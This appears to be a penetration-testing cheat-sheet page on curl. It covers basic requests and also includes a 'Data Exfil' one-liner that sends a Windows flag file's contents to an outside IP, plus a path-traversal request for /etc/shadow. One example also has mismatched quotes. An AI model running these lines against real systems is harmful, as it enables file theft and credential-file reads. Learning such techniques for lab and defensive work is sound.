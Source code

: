 # cURL

## Usage

{% tabs %}
{% tab title="GET" %}
```bash
curl http://example.com
```
{% endtab %}

{% tab title="POST" %}
```bash
# When -d is used it defaults to POST
curl -d 'username=user&password=pass' http://example.com/register
```
{% endtab %}

{% tab title="Headers" %}
{% code overflow="wrap" %}
```bash
# Defaults to 'application/x-www-form-urlencoded'
curl -H 'Content-Type: application/json" -d '{"username":"user","password":"pass"}' http://example.com/register
```
{% endcode %}
{% endtab %}

{% tab title="Response Headers" %}
```bash
# Defaults to returns just the response body
curl -i http://example.com/register
```
{% endtab %}

{% tab title="Redirections" %}
```bash
curl -L <URL>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Banner Grabbing" %}
```bash
curl <--head | -I> <IP:PORT>
```
{% endtab %}

{% tab title="Status Code Extraction" %}
```bash
curl -s <URL> -L -o /dev/null -w "%{http_code}"
```
{% endtab %}

{% tab title="JSON" %}
```bash
curl <URL> | json_pp
```
{% endtab %}

{% tab title="Data Exfil" %}
```bash
curl http://10.10.14.10/$(type c:\users\administrator\desktop\flag.txt)
```
{% endtab %}

{% tab title="FI" %}
When testing File Inclusion vulnerablities with `curl` use the `--path-as-is` option which tells `curl` **not to normalize or modify the URL path**. Normally, `curl` (and many HTTP clients) **normalize** paths by resolving or decoding things like: `.` and `..` in URLs, encoded characters like `%2F` into `/`, duplicate slashes `//`, etc. which can sometimes change the actual request path sent to the server.

{% code overflow="wrap" %}
```bash
x7331@kali:~$ curl --path-as-is http://localhost:7777/../../../../../../../../etc/shadow
```
{% endcode %}
{% endtab %}
{% endtabs %}
